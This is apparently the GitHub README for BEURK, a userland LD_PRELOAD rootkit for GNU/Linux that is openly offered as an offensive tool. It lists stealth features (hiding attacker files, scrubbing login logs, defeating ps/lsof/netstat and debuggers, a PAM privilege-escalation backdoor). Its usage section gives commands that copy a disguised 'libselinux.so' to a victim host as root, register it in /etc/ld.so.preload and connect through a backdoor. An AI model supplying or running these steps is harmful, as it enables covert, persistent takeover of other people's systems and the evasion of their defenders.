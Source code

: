BEURK
=====
[Wiki] | [API Documentation] | [Getting Started] | [Contributing]

[![Travis Build](https://travis-ci.org/unix-thrust/beurk.svg?branch=master)](https://travis-ci.org/unix-thrust/beurk)
[![Ready Issues](https://badge.waffle.io/unix-thrust/beurk.svg?label=Ready&title=Ready-Issues)](https://waffle.io/unix-thrust/beurk)
[![Coverage Status](https://img.shields.io/coveralls/unix-thrust/beurk.svg)](https://coveralls.io/r/unix-thrust/beurk)
[![Coverity Scan Build](https://img.shields.io/coverity/scan/4866.svg)](https://scan.coverity.com/projects/4866)
[![Jenkins Build](http://ci.zgun-family.eu/job/BEURK/badge/icon)](http://ci.zgun-family.eu/job/BEURK/)

**BEURK** is an userland [preload rootkit] for GNU/Linux, heavily focused
around anti-debugging and anti-detection.

> _**S'ils savaient, ils vomiraient ...**_
>
> *- The core team -*

[![Join the chat at https://gitter.im/unix-thrust/beurk](https://badges.gitter.im/Join%20Chat.svg)](https://gitter.im/unix-thrust/beurk)

-------------------------------------------------------------------------------

### Features ###
- Hide attacker files and directories
- Realtime log cleanup (on [utmp/wtmp])
- Anti process and login detection
- [ptrace(2)] hooking for anti-debugging
- [libpcap] hooking undermines local sniffers
- Bypass unhide, lsof, ps, ldd, netstat analysis
- PAM backdoor for *local privilege escalation*
- Furtive PTY backdoor client

### Usage ###
* **Compile**
```sh
    git clone https://github.com/unix-thrust/beurk.git
    cd beurk
    ./builder --arch=x64 # build an evil hooking library

```
* **Install**
```sh
    scp libselinux.so root@victim.com:/lib/
    ssh root@victim.com 'echo /lib/libselinux.so >> /etc/ld.so.preload'
```
* **Enjoy !**
```sh
    ./client victim_ip:port # connect with furtive backdoor
```

-------------------------------------------------------------------------------

[![Throughput Graph](https://graphs.waffle.io/unix-thrust/beurk/throughput.svg)](https://waffle.io/unix-thrust/beurk/metrics)

* _**BEURK v 1.0 is in active development,**_
_**please checkout current [development branch].**_

> NOTE: **BEURK** is a recursive acronym for
> **B**EURK **E**xperimental **U**nix **R**oot **K**it

-------------------------------------------------------------------------------

[Wiki]: https://github.com/unix-thrust/beurk/wiki
[API Documentation]: https://github.com/unix-thrust/beurk/wiki/API-Documentation
[Getting Started]: https://github.com/unix-thrust/beurk/wiki/Getting-Started
[Contributing]: https://github.com/unix-thrust/beurk/blob/master/CONTRIBUTING.md

[preload rootkit]: http://volatility-labs.blogspot.fr/2012/09/movp-24-analyzing-jynx-rootkit-and.html
[utmp/wtmp]: http://man7.org/linux/man-pages/man5/utmp.5.html
[ptrace(2)]: http://man7.org/linux/man-pages/man2/ptrace.2.html
[libpcap]: http://en.wikipedia.org/wiki/Pcap#libpcap
[development branch]: https://github.com/unix-thrust/beurk/tree/dev

